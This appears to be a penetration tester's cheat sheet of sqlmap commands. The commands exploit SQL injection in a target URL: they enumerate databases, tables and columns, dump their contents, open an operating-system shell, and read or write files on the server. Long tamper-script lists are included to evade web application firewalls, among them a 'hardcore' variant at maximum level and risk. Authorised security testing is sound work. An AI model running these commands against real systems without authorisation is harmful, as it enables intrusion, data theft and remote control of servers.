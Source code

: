 # SQLMAP

% sqlmap

## basic sqlmap step 1
```
sqlmap -u <url> -p <arguments> --dbs
```

## basic sqlmap step 2
```
sqlmap -u <url> -p <arguments> --dbms=<database_type>
```

## basic sqlmap step 3
```
sqlmap -u <url> -p <arguments> --dbms=<database_type> -D <database_name> --tables
```

## basic sqlmap step 4
```
sqlmap -u <url> -p <arguments> --dbms=<database_type> -D <database_name> -T <tables> --columns
```

## basic sqlmap step 5
```
sqlmap -u <url> -p <arguments> --dbms=<database_type> -D <database_name> -T <tables> -C <columns> --dump
```

## sqlmap - list dbs
```
sqlmap -u <url> --dbs
```

## sqlmap - list tables
```
sqlmap -u <url> -D <db> --tables
```

## sqlmap - dump a table
```
sqlmap -u <url> -D <db> -T <table> --dump
```

## sqlmap - list columns of a table
```
sqlmap -u <url> -D <db> -T <table> --columns
```

## sqlmap - dump only some tables columns
```
sqlmap -u <url> -D <db> -T <table> -C <c1>,<c2> --dump
```

## sqlmap - get shell
```
sqlmap -u <url> --os-shell
```

## sqlmap - file read
```
sqlmap -u <url> --file-read=<remote_file>
```

## sqlmap - file write
```
sqlmap -u <url> --file-write=<local_file> --file-dest=<remote_path_destination>
```

## sqlmap - classic get
```
sqlmap -u <url>
```

## sqlmap - classic post
```
sqlmap -u <url> -d "<params>"
```

## sqlmap - get with cookie
```
sqlmap -u <url> --cookie=<cookie>
```

## sqlmap - use file
```
sqlmap -r <request_file>
```

## sqlmap - classic with tamper
```
sqlmap -u '<url>' tamper=apostrophemask,apostrophenullencode,base64encode,between,chardoubleencode,charencode,charunicodeencode,equaltolike,greatest,ifnull2ifisnull,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2plus,space2randomblank,unionalltounion,unmagicquotes
```

## sqlmap - hardcore
```
sqlmap -u '<url>' --level=5 --risk=3 -p '<parameter>' --tamper=apostrophemask,apostrophenullencode,appendnullbyte,base64encode,between,bluecoat,chardoubleencode,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,nonrecursivereplacement,percentage,randomcase,randomcomments,securesphere,space2comment,space2dash,space2hash,space2morehash,space2mssqlblank,space2mssqlhash,space2mysqlblank,space2mysqldash,space2plus,space2randomblank,sp_password,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords
```

## sqlmap - mysql tamper list
```
sqlmap -u <url> --dbms=MYSQL tamper=between,charencode,charunicodeencode,equaltolike,greatest,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,sp_password,space2comment,space2dash,space2mssqlblank,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes
```

## sqlmap - mssql tamper list
```
sqlmap -u <url> --dbms=MSSQL tamper=between,bluecoat,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2hash,space2morehash,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords,xforwardedfor
```
